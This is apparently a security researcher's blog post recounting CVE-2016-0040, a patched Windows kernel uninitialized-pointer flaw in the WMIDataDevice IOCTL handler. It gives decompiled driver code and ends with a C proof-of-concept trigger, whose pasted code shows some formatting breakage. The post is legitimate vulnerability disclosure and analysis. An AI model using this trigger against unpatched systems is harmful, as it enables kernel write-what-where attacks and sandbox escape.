 ```yaml
---
layout: post
title: "CVE-2016-0040 Story of Uninitialized Pointer in Windows Kernel"
date: 2024-03-29 1:1:59 +0100
categories: fuzzing
---
```

Update:

This post is a resharing of a blog I wrote about a vulnerability I discovered in Windows kernel almost a decade ago.


this vulnerablity is interesting for three reseaons 
* it gave Write arbitrary data to arbitrary address.
* it has an amusing story associated with it. after my discovery of this vulnerability, I shared a tweet about it, which caught the attention of researchers from Microsoft. Remarkably, they were able to discern the root cause of the vulnerability simply by examining my tweet.
you can read their story in [MSRC blog](https://msrc.microsoft.com/blog/2017/06/tales-from-the-msrc-from-pixels-to-poc/)

![My image Name](/assets/tweet.png)
* there was another vulnerablity( CVE-2016-0087) in this function I had found and I was expecting MSRC to spot it when then are auditing wmi, but they didn't.


Original post:

A few months ago, I discovered some vulnerabilities in the Windows kernel, mostly related to local privilege escalation.

Microsoft patched one of the reported vulnerabilities in MS16-014. The vulnerability type is an uninitialized pointer dereference. This vulnerability can be triggered even by a process with "low integrity level", meaning that successfully exploiting this vulnerability can lead to bypassing the sandbox (for example, the IE sandbox) or generic local privilege escalation for any process.


Here's a description of the bug:

For handling some WMI functions, Windows NT creates a named device called <mark>WMIDataDevice</mark>.

This device is accessible from user mode with any permission (you can check it with WinObj). WMIDataDevice handles some IOCTLs, with the <mark>WmipReceiveNotifications</mark> function responsible for the <mark>IOCTL_WMI_ENUMERATE_GUIDS IOCTL</mark>. Based on the first DWORD of <mark>Irp->AssociatedIrp.SystemBuffer</mark>, WmipReceiveNotifications decides whether to use the <mark>stack</mark> or <mark>kernel pool</mark> as a buffer for storing data/pointers. If the first DWORD is less than or equal to 0x10, the stack is selected as the buffer.

There's another important usage of the mentioned DWORD. WmipReceiveNotifications uses this DWORD as a counter for looping and initializing the local buffer. So, if we put 0 in the first DWORD of Irp->AssociatedIrp.SystemBuffer from user mode, the function selects the stack as the buffer. As mentioned earlier, this buffer is initiated in a loop. In this case, since we passed 0, the function skips loop execution, leaving the stack buffer uninitialized.

To reach the vulnerability, we need to bypass some other condition inside WmipReceiveNotifications.


v16 comes from user mode and its value needs to be 2.
{% highlight cpp %}
v16 = *(_DWORD *)(SystemBuffer + 4);
{% endhighlight %}

Insert a valid handle for ObReferenceObjectByHandle in SystemBuffer.
{% highlight cpp %}
v39 = ObReferenceObjectByHandle(*(HANDLE *)(SystemBuffer + 16), 0x43Au, 0, 1, &PIRP, 0);
{% endhighlight %}


finally uninitialized local variable used as target pointer and function write a DWORD from SystemBuffer + 8 to it

we can control what is written but for manipulating uninitialized stack we need a good stack spray inside kernel

{% highlight cpp %}
v23 = *(_DWORD *)LocalBuffer;

*(_DWORD *)(v23 + 60) = *(_DWORD *)(SystemBuffer + 8); // Write arbitrary data to uninitialized local variable or Write-what-where condition
{% endhighlight %}

Utilizing an uninitialized local variable as a pointer to write arbitrary data to its referenced location requires the attacker to employ a stack spraying technique for successful exploitation. This vulnerability presents a "write-what-where" condition, offering multiple ways for exploitation, such as zero ACL or SET token permission.

{% highlight cpp %}
int __userpurge WmipReceiveNotifications @(int SystemBuffer @, unsigned int * OutputBufferSize, PVOID PIRP) {
     ...
     ...
 
     v4 = SystemBuffer;
     v5 = * OutputBufferSize;
     v6 = * (_DWORD * ) v4;
     v39 = -1073741811;
     v37 = v5;
     v36 = v6;
     if (v6 <= 0x10) // if first value inside buffer from user mode is less than or equal to 0x10 then use local stack so we pass 0 to force use local stack
     {
         LocalBuffer =& v32;;
         
     } else {
         LocalBuffer = ExAllocatePoolWithTag(PagedPool, 8 * v6, 0x70696D57 u);
         if (!LocalBuffer)
             return -1073741670;
     }
 
     we don 't go inside this if because we use passed zero
 
     v42 = 0;
     v40 = 0;
     v38 = 0;
     v44 = 0;
     v41 = 0;
     if (v6) 
{
         do {
             v39 = ObReferenceObjectByHandle( * (HANDLE * )(v4 + 8 * v41 + 24), 4 u, WmipGuidObjectType, 1,&Object, 0);
             if (v39<0) goto LABEL_55;
             v8 = Object;
             v9 = 0;
             if (v44) {
                 while (Object != * ((PVOID * ) LocalBuffer + 2 * v9)) {.......
                 }
             }
         }
     } // because v42 and v45 is set to 0 we also bypass this two if 
if ( v42 == 1 ) { ... ... ... } 
if ( v45 | BYTE3(PIRP) ) { v13 = v37; if ( v11 &v37 )
     
  * (_DWORD * )(v4 + 48) = v11; * (_DWORD * ) v4 = 56; * (_DWORD * )(v4 + 44) = 32; * OutputBufferSize = 56;
     
     ...
     ...
     ...
 
 //v16 come from user mode so we can set it's value 2 then lead code to here
 
 if (v16 != 2) 
{
     LABEL_54:
         * OutputBufferSize = 0;
     goto LABEL_55;
 }
 v39 = ObReferenceObjectByHandle( * (HANDLE * )(v4 + 16), 0x43A u, 0, 1,&PIRP, 0);
 if (v39 >= 0)
 {
     v39 = ObOpenObjectByPointerWithTag((ULONG_PTR) PIRP, 512, 0, 0x1FFFFF, 0, 0, 1953261124, (int)&v35);
     if (v39>= 0)
 {
         v23 = * (_DWORD * ) LocalBuffer; * (_DWORD * )(v23 + 60) = * (_DWORD * )(v4 + 8); // write arbitrary data from uninitialized local variable

{% endhighlight %}

# Advantages of the vulnerability:
* The bug can be triggered even in low integrity contexts.
*  It's unrelated to win32k.sys, meaning it ignores the "Win32k system call disable policy", for instance in Chrome browser.
* It works with the default OS configuration, providing a universal sandbox bypass.

Sample POC for the vulnerability
{% highlight cpp %}

typedef union {
    HANDLE Handle;
    ULONG64 Handle64;
    ULONG32 Handle32;
}
HANDLE3264, * PHANDLE3264;
 
typedef struct {
    //
    // List of guid notification handles
    //
    ULONG HandleCount;
    ULONG Action;
    HANDLE /* PUSER_THREAD_START_ROUTINE */ UserModeCallback;
    HANDLE3264 UserModeProcess;
    HANDLE3264 Handles[20];
}
WMIRECEIVENOTIFICATION, * PWMIRECEIVENOTIFICATION;
 
#
define RECEIVE_ACTION_CREATE_THREAD 2 // Mark guid objects as requiring
 
typedef struct {
    IN VOID * ObjectAttributes;
    IN ACCESS_MASK DesiredAccess;
 
    OUT HANDLE3264 Handle;
}
WMIOPENGUIDBLOCK, * PWMIOPENGUIDBLOCK;
 
#
define IOCTL_WMI_ENUMERATE_GUIDS\
CTL_CODE(FILE_DEVICE_UNKNOWN, WmiEnumerateGuidList, METHOD_BUFFERED, FILE_READ_ACCESS)
 
void main() {
    DWORD dwBytesReturned;
    HANDLE threadhandle;
    WMIRECEIVENOTIFICATION buffer;
    CHAR OutPut[1000];
 
    memset( & amp; buffer, '\x41', sizeof(buffer)); // set ecx to 0x41414141
    buffer.HandleCount = 0;
    buffer.Action = RECEIVE_ACTION_CREATE_THREAD;
    buffer.UserModeProcess.Handle = GetCurrentProcess(); 
 
    // using NtMapUserPhysicalPages for spraying stack cant help us
 
    HANDLE hDriver = CreateFileA("\\\\.\\WMIDataDevice", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hDriver != INVALID_HANDLE_VALUE) {
        while (TRUE) {
            if (!DeviceIoControl(hDriver, IOCTL_WMI_RECEIVE_NOTIFICATIONS, & amp; buffer, sizeof(buffer), & amp; OutPut, sizeof(OutPut), & amp; dwBytesReturned, NULL)) {
                return;
            }
        }
 
    }
 
}
{% endhighlight %}


[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/




